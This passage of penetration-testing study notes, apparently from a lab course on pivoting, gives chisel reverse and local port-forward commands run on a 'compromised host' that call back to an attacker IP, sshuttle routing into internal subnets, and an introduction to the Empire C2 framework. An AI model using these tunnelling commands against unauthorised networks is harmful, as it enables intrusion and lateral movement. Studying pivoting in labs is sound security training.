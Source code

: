 ```bash
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT & #set on compromised host
#example
./chisel server -p 1337 --reverse &
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```
The example will allow us access to 172.16.0.10:22 with 127.0.0.1:2222 on attacker machine.
##### local port forward
connect from attacker to listening compromised chisel server.
```bash
./chisel server -p LISTEN_PORT #set on compromised host
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT #set on attacker
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```
The example will allow us access to 172.16.0.10:22 with localhost:2222 on attacker machine

Kill background process with `jobs` then `kill %NUMBER`.

#### shuttle
tools to simulate VPN, allow use to route through proxy withouth the use of tools like proxychains. We can connect to devices in the target network as we would normally, connected to networked devices.
Can only work in linux, and need ssh access and python to be installed in the compromised machine.

Install shuttle with: `sudo apt install sshuttle`.

Run shuttle with:
```bash
sshuttle -r username@address subnet
sshutle -r user@172.16.0.5 172.16.0.0/24

sshuttle -r username@address -N #automatically determine the network

sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET #for connection with keys only
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5 # use -x for the compromised host so it will not disrupt the connection
```
connect to the 172.16.0.0/24 network through 172.16.0.5 compromised host.


### Command and Control(C2) Framework
C2 framework are used to consolidate attacker position within network and simplify post exploitation steps(privesc, AV evasion, pivoting, looting, etc).
https://www.thec2matrix.com/ list pros and cons of a lot of frameworks.
This room show the C2 Framework "Empire"

#### Empire
Empire have a client and server, and there is also <b>starkiller</b>, a GUI extension for empire.
Install the package:
```bash
apt install powershell-empire starkiller
```
